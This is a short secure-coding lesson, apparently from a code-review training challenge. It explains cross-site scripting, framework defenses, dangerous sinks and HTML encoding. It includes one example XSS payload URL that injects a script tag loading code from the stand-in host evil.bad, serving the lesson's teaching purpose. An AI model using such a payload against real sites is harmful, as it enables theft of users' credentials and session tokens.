 JavaScript’s biggest foe is Cross-Site Scripting (abbreviated XSS). This type of attack occurs when a web page accepts input containing JavaScript from an untrusted source and renders it in the context of the page. It’s practically a form of code injection.

The target is the user identity. The server relies on authentication tokens and credentials to identify the user. The malicious script will extract this information from the browser and send it to a site the attacker controls (hence the name Cross-Site Scripting). The script makes it into the page via a specially crafted URL sent to the user (reflected XSS ) or by saving it into the site as an article or message (stored XSS).

Example URL with XSS payload:
    
    https://site.com/search.jsp?q='"/><script src="https://evil.bad/xss.js"></script>

#####Code Defenses Against Cross-Site Scripting

To prevent the attack the application must **neutralize the user input**. This means that the input will be inserted in the page without being rendered or executed. Most modern JavaScript frameworks such as **Angular** or **React** do this implicitly. 

In the Angular example below the `fullName` parameter is embeded in the link innerText, a safe context.

    <a class="nav-link"><span class="oi oi-account-logout"> Logout {{fullName}} </a>

However, sometimes you must extend the JavaScript framework by designing your own UI elements. When doing this you must keep in mind that the following page contexts are dangerous since they will execute input as JavaScript.

Dangerous HTML element attributes:

- innerHTML
- src
- onLoad, onClick, etc…

Dangerous functions:

- eval
- setTimeout
- setInterval

In the case of legacy web applications server side rendered code (JSP, PHP, ASPX) co-exists with modern pages and maintenance of the server side code may introduce new Cross-Site Scripting issues, if user input is not neutralized. In those cases HTML Encoding functions have to be called to turn hazardous HTML markup into safe strings.

`<` becomes `&lt;`

`>` becomes `&gt;`

`"` becomes `&quot;`

In this challenge you will take a look at a few samples to understand how to spot Cross-Site Scripting during code review. Select the code that prevents the vulnerability.

